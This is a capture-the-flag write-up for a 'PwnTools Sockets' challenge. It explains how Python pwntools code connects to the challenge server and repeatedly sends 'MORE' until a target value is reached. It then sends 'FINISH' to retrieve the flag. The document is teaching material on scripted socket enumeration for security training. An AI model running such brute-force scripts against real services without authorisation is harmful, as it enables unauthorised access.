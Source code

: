 # Challenge `PwnTools Sockets` Writeup

- Vulnerability: 
  - brute-force attack
- Where:
  - `/more` endpoint
- Impact:
  - allows to find the server's guess by enumeration

## Analyzing the server

This challenge is similar to the [previous one](python_requests.md) but this time it uses sockets instead of HTTP requests.


## Exploit

First we connect to the server using the `pwntools` library.
```python
s = remote(SERVER, PORT)
```
Then we read the current value and the target value.
```python
s.recvuntil(b'get to ')
total = s.recvuntil(b'.')[:-1].decode()

s.recvuntil(b'CURRENT = ')
current = s.recvuntil(b'.')[:-1].decode()
```
If the current value isn't equal to the target value, we send a `MORE\n` message to the socket and repeat until we reach the target value.
```python
s.send(b'MORE\n')
s.recvuntil(b'CURRENT = ')
current = s.recvuntil(b'.')[:-1].decode()
```
Finally we send the `FINISH\n` message to the socket and read the flag.
```python
s.send(b'FINISH\n')
s.recvuntil(b'GREAT JOB: ')
flag = s.recvuntil(b'\n')[:-1].decode()
```

## Implementation

These code snippets and full implementation can be found [here](pwntools_sockets.py).
